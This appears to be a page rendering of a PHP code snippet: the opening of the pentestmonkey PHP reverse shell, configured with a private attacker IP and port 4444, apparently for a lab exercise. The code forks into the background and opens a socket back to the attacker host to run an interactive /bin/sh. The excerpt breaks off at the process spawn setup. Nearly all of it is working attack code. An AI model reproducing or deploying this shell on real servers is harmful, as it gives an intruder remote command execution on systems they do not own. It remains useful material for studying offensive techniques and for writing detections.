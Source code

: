 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ php
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.45.238';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~